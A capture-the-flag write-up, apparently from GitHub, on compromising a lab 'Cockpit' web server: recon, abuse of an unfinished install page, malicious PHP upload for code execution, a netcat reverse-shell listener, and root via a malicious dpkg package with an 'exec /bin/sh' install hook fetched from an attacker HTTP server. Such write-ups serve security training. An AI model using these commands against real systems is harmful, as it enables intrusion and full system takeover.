 # Cockpit Machine from brCTF

## Information Gathering/Reconnaissance
As usual we fire up our favourite network mapper (nmap) and perform some basic recon. We can see that we have only port 80 (http) open.
`nmap -sC -sV -oN cokcpit.nmap 10.0.160.145`
```
Nmap scan report for 10.0.160.145
Host is up (0.24s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-title: Cockpit
|_Requested resource was /auth/login?to=%2F

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second stage of out recon we checkout the application running on port `80` from our browser. <br>
We are greeted with a homepage.... interesting!
![Cockpit Homepage](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/homepage.png "a title")

Next we try to find out what other pages are available on our target. We employ the servies of our directory bruteforcing tool (feroxbuster) or an other webfuzzer. <br>
`feroxbuster -u http://10.0.160.145 -w /raft-medium-wordlists.txt`
```
302      GET        0l        0w        0c http://10.0.160.145/ => http://10.0.160.145/auth/login?to=%2F
302      GET        0l        0w        0c http://10.0.160.145/system => http://10.0.160.145/auth/login?to=%2Fsystem
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^
302      GET        0l        0w        0c http://10.0.160.145/?????? => http://10.0.160.145/auth/login?to=%2F%3F%253F%253F%253F%253F%253F%3D
400      GET        7l       11w      157c http://10.0.160.145/100%sexy
400      GET        7l       11w      157c http://10.0.160.145/100%angel
400      GET        7l       11w      157c http://10.0.160.145/100%bitch
400      GET        7l       11w      157c http://10.0.160.145/100%me
400      GET        7l       11w      157c http://10.0.160.145/100%cute
400      GET        7l       11w      157c http://10.0.160.145/100%love
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^&*()
302      GET        0l        0w        0c http://10.0.160.145/content => http://10.0.160.145/auth/login?to=%2Fcontent
400      GET        7l       11w      157c http://10.0.160.145/100%cool
301      GET        7l       11w      169c http://10.0.160.145/install => http://10.0.160.145/install/
404      GET        0l        0w        0c http://10.0.160.145/austin101
```

## Exploitation
Something interesting the results above. We find a `/install` endpoint. <br>
After visiting this page in the browser we realized that the system administrator setup cockpit application without fully installing. Nice! we can abuse this. <br> After visiting this endpoint cockpit will be installed and will setup an account with default logins.
![Cockpit Install Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/install_the_software.png "a title")

Using the default logins obtained on installation we can login to the cockpit application.
![Cockpit Login Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/login_with_default_creds.png "a title")

Successful Login attempt and we a greeted with the application dashboard. From there we can do a little recon to find out the version of cockpit running. From the image below, `cockpit v2.4.0` is found to be running.
![Cockpit Dashboard Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/cockpit_version_info.png "a title")

As a hacker google should be one of your cherised tools. Using the google search engine we can search for publicly available exploit for `cockpit v2.4.0`. <br> We find a publicly disclosed exploitation process [here](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
![Public Expliot](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/google_vuln.png "a title")

From the steps provided on the [website](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
1. We must first craft out malicous php script.
![exploit code](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/exploit_code.png "a title")

2. Head over to the assest page on cockpit and upload our malicious php script.
![uploading asset](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/asset_upload.png "a title")
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/uploading_php_script.png "a title")

3. Click on the options icons after fully uploding the asset and select `copy asset link` from the popup.
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/asset_options.png "a title")

4. Open a new browser tab and paste the link there. Hold up! one last thing to do before execution. After pasting the link remove `/http:` from the url and now you can execute.

Finally! we now have RCE on the target and we can get a shell on netcat.<br>
We first start by running our netcat listener.
`nc -lnvp 8989`
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/listening_on_netcat.png "a title")

Now we can send execute command on our malicious php web page to get a shell on our listener.<br>
![netcat payload shell](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/netcat_payload.png)

Boom we get a connection on our listener.
![netcat rev shell](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/recieved_nc_connection.png)

## Post Exploitation
Anytime we get a shell through netcat we obtain a dumb shell. A dump shell has very little functionality and therefore we need a stable shell. Shell Stabilization prevents you from killing your reverse shell and adds proper shell functionalities.

#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

## Privilege Escalation
We first check our privileges.
`sudo -l`
![PE vector](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/priv_escalation.png)

Doing a search on for dpkg on [gtfobins](https://gtfobins.github.io/gtfobins/dpkg/#sudo)
![gfobins](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/gtfobins_privesc.png)

Now the way this is going to work is that we would build a malcious debian package and then we try installing the package which will run our malicious code embedded in the package.<br>
Steps to building malicious package.
1. Install fpm: `sudo apt install ruby && sudo gem install fpm`
2. Build package with fpm: ```TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF```
![mal deb package](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/creating_mal_packgae.png)

We now have our malicous package on our host and we can now transfer to our target.<br>
Start your python server: `python3 -m http.server 8000`
![python transfer](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/python_server_for_mal_package.png)

Download the malicous package on your target.<br>
NB: Make sure you are in a writable directory like `/tmp`. <br>

![python transfer download](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/downloading_mal_package_from_attacker_server.png) 

Now we can execute and get root access.<br>
![execute code](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/exec_command_priv_root.png)<br>
We are now root!!! :smiley: <br>
![iamroot](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/i_am_root.png)